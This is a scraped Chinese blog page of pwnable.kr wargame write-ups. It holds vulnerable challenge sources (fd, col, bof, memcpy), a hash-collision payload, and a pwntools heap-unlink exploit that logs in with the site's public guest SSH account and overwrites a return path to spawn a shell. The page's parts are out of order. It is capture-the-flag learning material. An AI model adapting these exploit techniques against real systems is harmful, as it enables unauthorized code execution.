B-&gt;fd\n实际上我们只要利用这个来重写B在堆中的fd和bk，就能实现任意内存写入了。\n在下面这段汇编中可以找到ABC的地址：\n从下面这一段我们可以看出，只要将栈上的值传给返回地址，修改esp的内容为shell的地址就行了。将ebp-0x4的地址传给了esp，将ebp-0x4的值存在了ecx中。我们要修改的就是ebp-0x4，而将shell的地址写入A中后，它们之间的偏移就是0x10.所以是stack_addr + 0x10;而shell的地址是heap的地址加8，又有ecx-4赋给了esp，所以还要加8，heap_addr + 12.（还要再减4\n这个exp写得感觉自己是个智障orz…\n123456789101112131415161718192021222324from pwn import*context(log_level='debug')#sh = process('./unlink')p = ssh(host='pwnable.kr', port=2222, user='unlink', password='guest')sh = p.process(\"./unlink\")sh.recvuntil(\"here is stack address leak: \")stack_addr = sh.recv(10)#a = sh.readline().strip()stack_addr = int(stack_addr, 16)sh.recvuntil(\"here is heap address leak: \")heap_addr = sh.recv(9)#b = sh.readline().strip()heap_addr = int(heap_addr, 16)shell_addr = 0x080484ebjunk = 'a' * 12payload = p32(shell_addr) + junk + p32(heap_addr + 12) + p32(stack_addr + 0x10)sh.send(payload)sh.interactive()\n下面是官方爸爸的exp…orz\nmemcpy分析一下源码，题目要求是使程序成功运行起来。关键点在fast_memcpy上，注意movntps指令，要求必须对齐16字节。123456789101112131415161718192021222324252627282930313233343536373839404142434445464748495051525354555657585960616263646566676869707172737475767778798081828384858687888990919293949596979899100101102103104105106107108109110111112113114115116117118119120121// compiled with : gcc -o memcpy memcpy.c -m32 -lm#include &lt;stdio.h&gt;#include &lt;string.h&gt;#include &lt;stdlib.h&gt;#include &lt;signal.h&gt;#include &lt;unistd.h&gt;#include &lt;sys/mman.h&gt;#include &lt;math.h&gt;unsigned long long rdtsc()&#123;        asm(\"rdtsc\");    //读取时间标签计数器&#125;char* slow_memcpy(char* dest, const char* src, size_t len)&#123;  //逐字替换        int i;        for (i=0; i&lt;len; i++) &#123;                dest[i] = src[i];        &#125;        return dest;&#125;char* fast_memcpy(char* dest, const char* src, size_t len)&#123;        size_t i;        // 64-byte block fast copy 64字节的块快速拷贝        if(len &gt;= 64)&#123;                i = len / 64;                len &amp;= (64-1);                while(i-- &gt; 0)&#123;                        __asm__ __volatile__ (   //__volatile__表示不要优化代码，后面的指令保持原样                        \"movdqa (%0), %%xmm0\\n\"  //将xxm寄存器中的双四字节移入128位内存位置                          \"movdqa 16(%0), %%xmm1\\n\"                        \"movdqa 32(%0), %%xmm2\\n\"                        \"movdqa 48(%0), %%xmm3\\n\"                        \"movntps %%xmm0, (%1)\\n\"  //直接把（%1）中的值送入xmm，不经过cache,必须对齐16字节                        \"movntps %%xmm1, 16(%1)\\n\"                        \"movntps %%xmm2, 32(%1)\\n\"                        \"movntps %%xmm3, 48(%1)\\n\"                        ::\"r\"(src),\"r\"(dest):\"memory\");                          dest += 64;                        src += 64;                &#125;        &#125;        // byte-to-byte slow copy  逐字拷贝        if(len) slow_memcpy(dest, src, len);        return dest;&#125;int main(void)&#123;        setvbuf(stdout, 0, _IONBF, 0);        setvbuf(stdin, 0, _IOLBF, 0);        printf(\"Hey, I have a boring assignment for CS class.. :(\\n\");        printf(\"The assignment is simple.\\n\");        printf(\"-----------------------------------------------------\\n\");        printf(\"- What is the best implementation of memcpy?        -\\n\");  //memcpy的最佳实现是什么        printf(\"- 1. implement your own slow/fast version of memcpy -\\n\");  //实现你自己的缓慢/快速版本的memcpy        printf(\"- 2. compare them with various size of data         -\\n\");  //将它们与各种大小的数据进行比较        printf(\"- 3. conclude your experiment and submit report     -\\n\");  //结束实验并提交报告        printf(\"-----------------------------------------------------\\n\");        printf(\"This time, just help me out with my experiment and get flag\\n\");        printf(\"No fancy hacking, I promise :D\\n\");        unsigned long long t1, t2;        int e;        char* src;        char* dest;        unsigned int low, high;        unsigned int size;        // allocate memory  分配内存        char* cache1 = mmap(0, 0x4000, 7, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);        char* cache2 = mmap(0, 0x4000, 7, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);        src = mmap(0, 0x2000, 7, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);        size_t sizes[10];        int i=0;        // setup experiment parameters   设置实验参数        for(e=4; e&lt;14; e++)&#123;    // 2^13 = 8K                low = pow(2,e-1);                high = pow(2,e);                printf(\"specify the memcpy amount between %d ~ %d : \", low, high);                scanf(\"%d\", &amp;size);                if( size &lt; low || size &gt; high )&#123;                        printf(\"don't mess with the experiment.\\n\");                        exit(0);                &#125;                sizes[i++] = size;        &#125;        sleep(1);        printf(\"ok, lets run the experiment with your configuration\\n\");        sleep(1);        // run experiment        for(i=0; i&lt;10; i++)&#123;                size = sizes[i];                printf(\"experiment %d : memcpy with buffer size %d\\n\", i+1, size);                dest = malloc( size );                memcpy(cache1, cache2, 0x4000);         // to eliminate cache effect 删除缓存                t1 = rdtsc();                slow_memcpy(dest, src, size);           // byte-to-byte memcpy                 t2 = rdtsc();                printf(\"ellapsed CPU cycles for slow_memcpy : %llu\\n\", t2-t1);                memcpy(cache1, cache2, 0x4000);         // to eliminate cache effect                t1 = rdtsc();                fast_memcpy(dest, src, size);           // block-to-block memcpy                t2 = rdtsc();                printf(\"ellapsed CPU cycles for fast_memcpy : %llu\\n\", t2-t1);                printf(\"\\n\");        &#125;        printf(\"thanks for helping my experiment!\\n\");        printf(\"flag : ----- erased in this source code -----\\n\");        return 0;&#125;\n编译运行一下，到第5步的时候出现了段错误。 出错的原因就是movntps指令要求必须16字节对齐。那先来了解一下什么是字节对齐吧：http://www.cnblogs.com/yin-jingyu/archive/2011/10/14/2211252.html \n\n我们来改写一下程序，看一下每步的地址值：\n可以看到它的地址值都是7位的，不是2的倍数，不满足16字节对齐，所以导致了段错误。\n 那么怎么找到正确的数据呢？我们知道malloc分配的堆块大小是以8字节对齐的，也就是mallco(a)分配的堆块大小为8*(int((a + 4)/8) + 1)；写下面这个脚本来判断输入的数据是否是16字节对齐的：12345678a = 1while(a != 0):    a = raw_input();    a = int(a);    if ( ((a + 4)%16 &gt;= 9) or ((a + 4)%16 == 0)):        print a,\" OK\"    else:        print a,\" NO\"\n根据运行结果，取{9,25,56,120,133,266,522,1033,2055,5016}这几个数据。注意每一步的取值范围。\n看到readme里的内容，连接到nc 0 9022就行了。\n","dateCreated":"2017-11-05T17:00:28+08:00","dateModified":"2018-05-11T14:10:07+08:00","datePublished":"2017-11-05T17:00:28+08:00","description":"pwnable.kr第一区的题的write up整理在这：","headline":"pwnable第一区write up","image":[],"mainEntityOfPage":{"@type":"WebPage","@id":"http://edvison.cn/2017/11/05/pwnable_1/"},"publisher":{"@type":"Organization","name":"Edvison","sameAs":["https://github.com/edvison","mailto:edvisonmail@163.com"],"image":"1.png","logo":{"@type":"ImageObject","url":"1.png"}},"url":"http://edvison.cn/2017/11/05/pwnable_1/","keywords":"pwn, writeup"}</script>
    <meta name="description" content="pwnable.kr第一区的题的write up整理在这：">
<meta name="keywords" content="pwn,writeup">
<meta property="og:type" content="blog">
<meta property="og:title" content="pwnable第一区write up">
<meta property="og:url" content="http://edvison.cn/2017/11/05/pwnable_1/index.html">
<meta property="og:site_name" content="Edvison&#39;s blog">
<meta property="og:description" content="pwnable.kr第一区的题的write up整理在这：">
<meta property="og:locale" content="zh-Hans">
<meta property="og:image" content="http://edvison.cn/2017/11/05/pwnable_1/20024023.png">
<meta property="og:image" content="http://edvison.cn/2017/11/05/pwnable_1/20146905.png">
<meta property="og:image" content="http://edvison.cn/2017/11/05/pwnable_1/15726429.png">
<meta property="og:image" content="http://edvison.cn/2017/11/05/pwnable_1/20362280.png">
<meta property="og:image" content="http://edvison.cn/2017/11/05/pwnable_1/233.png">
<meta property="og:image" content="http://edvison.cn/2017/11/05/pwnable_1/2.png">
<meta property="og:image" content="http://edvison.cn/2017/11/05/pwnable_1/3.png">
<meta property="og:image" content="http://edvison.cn/2017/11/05/pwnable_1/4.png">
<meta property="og:image" content="http://edvison.cn/2017/11/05/pwnable_1/5.png">
<meta property="og:image" content="http://edvison.cn/2017/11/05/pwnable_1/6.png">
<meta property="og:image" content="http://edvison.cn/2017/11/05/pwnable_1/7.png">
<meta property="og:image" content="http://edvison.cn/2017/11/05/pwnable_1/8.png">
<meta property="og:image" content="http://edvison.cn/2017/11/05/pwnable_1/9.png">
<meta property="og:image" content="http://edvison.cn/2017/11/05/pwnable_1/33.png">
<meta property="og:image" content="http://edvison.cn/2017/11/05/pwnable_1/34.png">
<meta property="og:image" content="http://edvison.cn/2017/11/05/pwnable_1/35.png">
<meta property="og:image" content="http://edvison.cn/2017/11/05/pwnable_1/10.png">
<meta property="og:image" content="http://edvison.cn/2017/11/05/pwnable_1/11.png">
<meta property="og:image" content="http://edvison.cn/2017/11/05/pwnable_1/12.png">
<meta property="og:image" content="http://edvison.cn/2017/11/05/pwnable_1/13.png">
<meta property="og:image" content="http://edvison.cn/2017/11/05/pwnable_1/14.png">
<meta property="og:image" content="http://edvison.cn/2017/11/05/pwnable_1/15.png">
<meta property="og:image" content="http://edvison.cn/2017/11/05/pwnable_1/16.png">
<meta property="og:image" content="http://edvison.cn/2017/11/05/pwnable_1/17.png">
<meta property="og:image" content="http://edvison.cn/2017/11/05/pwnable_1/18.png">
<meta property="og:image" content="http://edvison.cn/2017/11/05/pwnable_1/19.png">
<meta property="og:image" content="http://edvison.cn/2017/11/05/pwnable_1/20.png">
<meta property="og:image" content="http://edvison.cn/2017/11/05/pwnable_1/21.png">
<meta property="og:image" content="http://edvison.cn/2017/11/05/pwnable_1/22.png">
<meta property="og:image" content="http://edvison.cn/2017/11/05/pwnable_1/23.png">
<meta property="og:image" content="http://edvison.cn/2017/11/05/pwnable_1/24.png">
<meta property="og:image" content="http://edvison.cn/2017/11/05/pwnable_1/25.png">
<meta property="og:image" content="http://edvison.cn/2017/11/05/pwnable_1/26.png">
<meta property="og:image" content="http://edvison.cn/2017/11/05/pwnable_1/27.png">
<meta property="og:image" content="http://edvison.cn/2017/11/05/pwnable_1/28.png">
<meta property="og:image" content="http://edvison.cn/2017/11/05/pwnable_1/29.png">
<meta property="og:image" content="http://edvison.cn/2017/11/05/pwnable_1/30.png">
<meta property="og:image" content="http://edvison.cn/2017/11/05/pwnable_1/31.png">
<meta property="og:image" content="http://edvison.cn/2017/11/05/pwnable_1/32.png">
<meta property="og:image" content="http://edvison.cn/2017/11/05/pwnable_1/36.png">
<meta property="og:image" content="http://edvison.cn/2017/11/05/pwnable_1/37.png">
<meta property="og:image" content="http://edvison.cn/2017/11/05/pwnable_1/38.png">
<meta property="og:image" content="http://edvison.cn/2017/11/05/pwnable_1/39.png">
<meta property="og:image" content="http://edvison.cn/2017/11/05/pwnable_1/40.png">
<meta property="og:image" content="http://edvison.cn/2017/11/05/pwnable_1/41.png">
<meta property="og:updated_time" content="2018-05-11T06:10:07.057Z">
<meta name="twitter:card" content="summary">
<meta name="twitter:title" content="pwnable第一区write up">
<meta name="twitter:description" content="pwnable.kr第一区的题的write up整理在这：">
<meta name="twitter:image" content="http://edvison.cn/2017/11/05/pwnable_1/20024023.png">
    
    
        
    
    
        <meta property="og:image" content="http://edvison.cn/assets/images/1.png"/>
    
    
    
    
    <!--STYLES-->
    <link rel="stylesheet" href="/assets/css/font-awesome.css">
    <link rel="stylesheet" href="/assets/css/jquery.fancybox.css">
    <link rel="stylesheet" href="/assets/css/thumbs.css">
    <link rel="stylesheet" href="/assets/css/tranquilpeak.css">
    <!--STYLES END-->
    

    
</head>

    <body>
        <div id="blog">
            <!-- Define author's picture -->


    
        
            
        
    

<header id="header" data-behavior="5">
    <i id="btn-open-sidebar" class="fa fa-lg fa-bars"></i>
    <div class="header-title">
        <a class="header-title-link" href="/ ">Edvison&#39;s blog</a>
    </div>
    
        
            <a  class="header-right-picture "
                href="#about">
        
        
            
        
        </a>
    
</header>

            <!-- Define author's picture -->


        
    

<nav id="sidebar" data-behavior="5">
    <div class="sidebar-container">
        
            <div class="sidebar-profile">
                <a href="/#about">
                    
                </a>
                <h4 class="sidebar-profile-name">Edvison</h4>
                
                    <h5 class="sidebar-profile-bio"><p>Just the way you are</p>
</h5>
                
            </div>
        
        
            <ul class="sidebar-buttons">
            
                <li class="sidebar-button">
                    
                        <a  class="sidebar-button-link "
                             href="/ "
                            
                            title="Home"
                        >
                    
                        <i class="sidebar-button-icon fa fa-lg fa-home" aria-hidden="true"></i>
                        <span class="sidebar-button-desc">Home</span>
                    </a>
            </li>
            
                <li class="sidebar-button">
                    
                        <a  class="sidebar-button-link "
                             href="/all-categories"
                            
                            title="categories"
                        >
                    
                        <i class="sidebar-button-icon fa fa-lg fa-bookmark" aria-hidden="true"></i>
                        <span class="sidebar-button-desc">categories</span>
                    </a>
            </li>
            
                <li class="sidebar-button">
                    
                        <a  class="sidebar-button-link "
                             href="/all-tags"
                            
                            title="tags"
                        >
                    
                        <i class="sidebar-button-icon fa fa-lg fa-tags" aria-hidden="true"></i>
                        <span class="sidebar-button-desc">tags</span>
                    </a>
            </li>
            
                <li class="sidebar-button">
                    
                        <a  class="sidebar-button-link "
                             href="/all-archives"
                            
                            title="archives"
                        >
                    
                        <i class="sidebar-button-icon fa fa-lg fa-archive" aria-hidden="true"></i>
                        <span class="sidebar-button-desc">archives</span>
                    </a>
            </li>
            
                <li class="sidebar-button">
                    
                        <a  class="sidebar-button-link open-algolia-search"
                             href="#search"
                            
                            title="search"
                        >
                    
                        <i class="sidebar-button-icon fa fa-lg fa-search" aria-hidden="true"></i>
                        <span class="sidebar-button-desc">search</span>
                    </a>
            </li>
            
                <li class="sidebar-button">
                    
                        <a  class="sidebar-button-link "
                             href="#about"
                            
                            title="about"
                        >
                    
                        <i class="sidebar-button-icon fa fa-lg fa-question" aria-hidden="true"></i>
                        <span class="sidebar-button-desc">about</span>
                    </a>
            </li>
            
        </ul>
        
            <ul class="sidebar-buttons">
            
                <li class="sidebar-button">
                    
                        <a  class="sidebar-button-link " href="https://github.com/edvison" target="_blank" rel="noopener" title="GitHub">
                    
                        <i class="sidebar-button-icon fa fa-lg fa-github" aria-hidden="true"></i>
                        <span class="sidebar-button-desc">GitHub</span>
                    </a>
            </li>
            
                <li class="sidebar-button">
                    
                        <a  class="sidebar-button-link " href="mailto:edvisonmail@163.com" target="_blank" rel="noopener" title="E-Mail">
                    
                        <i class="sidebar-button-icon fa fa-lg fa-envelope-o" aria-hidden="true"></i>
                        <span class="sidebar-button-desc">E-Mail</span>
                    </a>
            </li>
            
        </ul>
        
            <ul class="sidebar-buttons">
            
                <li class="sidebar-button">
                    
                        <a  class="sidebar-button-link "
                             href="/atom.xml"
                            
                            title="RSS"
                        >
                    
                        <i class="sidebar-button-icon fa fa-lg fa-rss" aria-hidden="true"></i>
                        <span class="sidebar-button-desc">RSS</span>
                    </a>
            </li>
            
        </ul>
        
    </div>
</nav>

            
            <div id="main" data-behavior="5"
                 class="
                        hasCoverMetaIn
                        ">
                
<article class="post">
    
    
        <div class="post-header main-content-wrap text-left">
    
        <h1 class="post-title">
            pwnable第一区write up
        </h1>
    
    
        <div class="post-meta">
    <time datetime="2017-11-05T17:00:28+08:00">
	
		    05 Nov 2017
    	
    </time>
    
        <span>in </span>
        
    <a class="category-link" href="/categories/pwn/">pwn</a>


    
</div>

    
</div>

    
    <div class="post-content markdown">
        <div class="main-content-wrap">
            <p>pwnable.kr第一区的题的write up整理在这：</p>
<a id="more"></a>
<h1 id="table-of-contents">Inhaltsverzeichnis</h1><ol class="toc"><li class="toc-item toc-level-2"><a class="toc-link" href="#fd"><span class="toc-text">fd</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#col"><span class="toc-text">col</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#bof"><span class="toc-text">bof</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#upx"><span class="toc-text">upx</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#passcode"><span class="toc-text">passcode</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#mistake"><span class="toc-text">mistake</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#shellshock"><span class="toc-text">shellshock</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#random"><span class="toc-text">random</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#leg"><span class="toc-text">leg</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#cmd1"><span class="toc-text">cmd1</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#cmd2"><span class="toc-text">cmd2</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#UAF"><span class="toc-text">UAF</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#blackjack"><span class="toc-text">blackjack</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#asm"><span class="toc-text">asm</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#unlink"><span class="toc-text">unlink</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#memcpy"><span class="toc-text">memcpy</span></a></li></ol>
<h2 id="fd"><a href="#fd" class="headerlink" title="fd"></a>fd</h2><p><br>看一下fd.c:<br><figure class="highlight c"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta">#<span class="meta-keyword">include</span> <span class="meta-string">&lt;stdio.h&gt;</span></span></span><br><span class="line"><span class="meta">#<span class="meta-keyword">include</span> <span class="meta-string">&lt;stdlib.h&gt;</span></span></span><br><span class="line"><span class="meta">#<span class="meta-keyword">include</span> <span class="meta-string">&lt;string.h&gt;</span></span></span><br><span class="line"><span class="keyword">char</span> buf[<span class="number">32</span>];</span><br><span class="line"><span class="function"><span class="keyword">int</span> <span class="title">main</span><span class="params">(<span class="keyword">int</span> argc, <span class="keyword">char</span>* argv[], <span class="keyword">char</span>* envp[])</span></span>&#123;</span><br><span class="line">	<span class="keyword">if</span>(argc&lt;<span class="number">2</span>)&#123;</span><br><span class="line">		<span class="built_in">printf</span>(<span class="string">"pass argv[1] a number\n"</span>);  <span class="comment">//输入一个命令行参数</span></span><br><span class="line">		<span class="keyword">return</span> <span class="number">0</span>;</span><br><span class="line">	&#125;</span><br><span class="line">	<span class="keyword">int</span> fd = atoi( argv[<span class="number">1</span>] ) - <span class="number">0x1234</span>;     <span class="comment">//  0x1234  &gt;&gt;  4660</span></span><br><span class="line">	<span class="keyword">int</span> len = <span class="number">0</span>;</span><br><span class="line">	len = read(fd, buf, <span class="number">32</span>);</span><br><span class="line">	<span class="keyword">if</span>(!<span class="built_in">strcmp</span>(<span class="string">"LETMEWIN\n"</span>, buf))&#123;        <span class="comment">//字符串比较</span></span><br><span class="line">		<span class="built_in">printf</span>(<span class="string">"good job :)\n"</span>);</span><br><span class="line">		system(<span class="string">"/bin/cat flag"</span>);</span><br><span class="line">		<span class="built_in">exit</span>(<span class="number">0</span>);</span><br><span class="line">	&#125;</span><br><span class="line">	<span class="built_in">printf</span>(<span class="string">"learn about Linux file IO\n"</span>);</span><br><span class="line">	<span class="keyword">return</span> <span class="number">0</span>;</span><br><span class="line"></span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure></p>
<p></p>
<h2 id="col"><a href="#col" class="headerlink" title="col"></a>col</h2><figure class="highlight c"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta">#<span class="meta-keyword">include</span> <span class="meta-string">&lt;stdio.h&gt;</span></span></span><br><span class="line"><span class="meta">#<span class="meta-keyword">include</span> <span class="meta-string">&lt;string.h&gt;</span></span></span><br><span class="line"><span class="keyword">unsigned</span> <span class="keyword">long</span> hashcode = <span class="number">0x21DD09EC</span>;      <span class="comment">//key</span></span><br><span class="line"><span class="function"><span class="keyword">unsigned</span> <span class="keyword">long</span> <span class="title">check_password</span><span class="params">(<span class="keyword">const</span> <span class="keyword">char</span>* p)</span></span>&#123;</span><br><span class="line">	<span class="keyword">int</span>* ip = (<span class="keyword">int</span>*)p;</span><br><span class="line">	<span class="keyword">int</span> i;</span><br><span class="line">	<span class="keyword">int</span> res=<span class="number">0</span>;</span><br><span class="line">	<span class="keyword">for</span>(i=<span class="number">0</span>; i&lt;<span class="number">5</span>; i++)&#123;</span><br><span class="line">		res += ip[i];</span><br><span class="line">	&#125;</span><br><span class="line">	<span class="keyword">return</span> res;</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="function"><span class="keyword">int</span> <span class="title">main</span><span class="params">(<span class="keyword">int</span> argc, <span class="keyword">char</span>* argv[])</span></span>&#123;</span><br><span class="line">	<span class="keyword">if</span>(argc&lt;<span class="number">2</span>)&#123;</span><br><span class="line">		<span class="built_in">printf</span>(<span class="string">"usage : %s [passcode]\n"</span>, argv[<span class="number">0</span>]);</span><br><span class="line">		<span class="keyword">return</span> <span class="number">0</span>;</span><br><span class="line">	&#125;</span><br><span class="line">	<span class="keyword">if</span>(<span class="built_in">strlen</span>(argv[<span class="number">1</span>]) != <span class="number">20</span>)&#123;</span><br><span class="line">		<span class="built_in">printf</span>(<span class="string">"passcode length should be 20 bytes\n"</span>); </span><br><span class="line"> <span class="comment">/* 参数字符串长度为20个字符 */</span></span><br><span class="line">		<span class="keyword">return</span> <span class="number">0</span>;</span><br><span class="line">	&#125;</span><br><span class="line"></span><br><span class="line">	<span class="keyword">if</span>(hashcode == check_password( argv[<span class="number">1</span>] ))&#123;  </span><br><span class="line">		system(<span class="string">"/bin/cat flag"</span>);      </span><br><span class="line"> <span class="comment">/* 如果累加和相等就能够执行对应的命令，输出flag */</span></span><br><span class="line">		<span class="keyword">return</span> <span class="number">0</span>;</span><br><span class="line">	&#125;</span><br><span class="line">	<span class="keyword">else</span></span><br><span class="line">		<span class="built_in">printf</span>(<span class="string">"wrong passcode.\n"</span>);</span><br><span class="line">	<span class="keyword">return</span> <span class="number">0</span>;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>
<p>可以看出check_password函数将这20个字符分为5个数，所以只要计算5个数之和等于hashcode就行了。<br>先尝试一下直接提供参数”\x21\xDD\x09\xEC”+”\x00”<em>16:<br><br>报错了，似乎是因为不能用\x00？，那就用\x01好了=-=：<br><br>用一个大数加上后面四个相等的数，<br><br>即A+4</em>B=hashcode<br><br>hashcode = 0x21DD09EC =  568134124（10）<br><br>设B = \x01\x01\x01\x01；<br><br>B = 16843009（10）<br><br>A = 568134124（10） - 4 <em> B = 500762088<br><br>A=\xe8\x05\xd9\x1d<br><br>所以可以提供参数：<br><em>“\xe8\x05\xd9\x1d” + “\x01” </em> 16 </em><br><br>getflag~</p>
<h2 id="bof"><a href="#bof" class="headerlink" title="bof"></a>bof</h2><p>Download : <a href="http://pwnable.kr/bin/bof" target="_blank" rel="noopener">http://pwnable.kr/bin/bof</a><br><br>Download : <a href="http://pwnable.kr/bin/bof.c" target="_blank" rel="noopener">http://pwnable.kr/bin/bof.c</a></p>
<p>Running at : nc pwnable.kr 9000<br><figure class="highlight c"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta">#<span class="meta-keyword">include</span> <span class="meta-string">&lt;stdio.h&gt;</span></span></span><br><span class="line"><span class="meta">#<span class="meta-keyword">include</span> <span class="meta-string">&lt;string.h&gt;</span></span></span><br><span class="line"><span class="meta">#<span class="meta-keyword">include</span> <span class="meta-string">&lt;stdlib.h&gt;</span></span></span><br><span class="line"><span class="function"><span class="keyword">void</span> <span class="title">func</span><span class="params">(<span class="keyword">int</span> key)</span></span>&#123;</span><br><span class="line">	<span class="keyword">char</span> overflowme[<span class="number">32</span>];</span><br><span class="line">	<span class="built_in">printf</span>(<span class="string">"overflow me : "</span>);</span><br><span class="line">	gets(overflowme);	<span class="comment">// smash me!</span></span><br><span class="line">	<span class="keyword">if</span>(key == <span class="number">0xcafebabe</span>)&#123;</span><br><span class="line">		system(<span class="string">"/bin/sh"</span>);</span><br><span class="line">	&#125;</span><br><span class="line">	<span class="keyword">else</span>&#123;</span><br><span class="line">		<span class="built_in">printf</span>(<span class="string">"Nah..\n"</span>);</span><br><span class="line">	&#125;</span><br><span class="line">&#125;</span><br><span class="line"><span class="function"><span class="keyword">int</span> <span class="title">main</span><span class="params">(<span class="keyword">int</span> argc, <span class="keyword">char</span>* argv[])</span></span>&#123;</span><br><span class="line">	func(<span class="number">0xdeadbeef</span>);</span><br><span class="line">	<span class="keyword">return</span> <span class="number">0</span>;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure></p>
<p>一道缓冲区溢出题，我们可以利用overflowme[32]来覆盖key的值得到flag。</p>
<p>用gdb调：<br><br><br>可以发现[ebp-0xc]是overflowme，[ebp+0x8]是0xcafebabe。</p>
<p>找到cmp比较的地址，下断：</p>
<p></p>
